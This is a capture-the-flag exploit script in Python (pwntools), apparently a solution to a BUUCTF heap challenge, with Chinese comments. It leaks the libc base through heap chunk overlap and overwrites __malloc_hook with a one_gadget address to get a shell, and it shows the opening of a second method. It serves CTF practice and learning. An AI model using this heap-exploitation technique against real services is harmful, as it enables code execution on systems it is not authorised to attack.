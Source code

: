```python
 
def dump(idx):
    p.recvuntil('Command: ')
    p.sendline('4')
    p.recvuntil('Index: ')
    p.sendline(str(idx))

#通过chunk2泄露libc基址
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x10)
allocate(0x80)
free(2)
free(1)
payload = b"a"*0x10 + p64(0) + p64(0x21) + p8(0x80)
fill(0, len(payload), payload)
payload = 0x10 * b'a' + p64(0) + p64(0x21)
fill(3, len(payload), payload)
allocate(0x10)
allocate(0x10)
payload = 0x10 * b'a' + p64(0) + p64(0x91)
fill(3, len(payload), payload)
allocate(0x80)
free(4)
dump(2)
p.recvuntil("Content: \n")
arena_addr = u64(p.recv(8)) - 88
#print(hex(arena_addr))
main_arena_offset = ELF("libc-2.23.so").symbols["__malloc_hook"] + 0x10 #wiki上获取基址的方法 
libc_base = arena_addr - main_arena_offset
#print(hex(libc_base))
leak('libc base addr',libc_base)
#以下实现在__malloc_hook附近分配chunk覆盖__malloc_hook，
allocate(0x60)
free(4)
fake_chunk_addr = arena_addr - 0x33
fake_chunk = p64(fake_chunk_addr)
fill(2, len(fake_chunk), fake_chunk)
allocate(0x60)
allocate(0x60)
one_gadget_addr = libc_base + 0x4526a
payload = 0x13 * b'a' + p64(one_gadget_addr)
fill(6, len(payload), payload)
allocate(0x100)
p.interactive()
```

```python
#方法2
from pwn import *
context(log_level='debug',arch='amd64',os='linux')
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
p = remote('node4.buuoj.cn',26522)
#函数定义与方法一相同
allocate(0x60) #0
allocate(0x40) #1
allocate(0x100) #2
payload= b'a'*0x60 + p64(0) + p64(0x71)
fill(0,len(payload),payload)
payload= b'a'*0x10 + p64(0) + p64(0x71)
fill(2,len(payload),payload)
free(1)
allocate(0x60) #1
```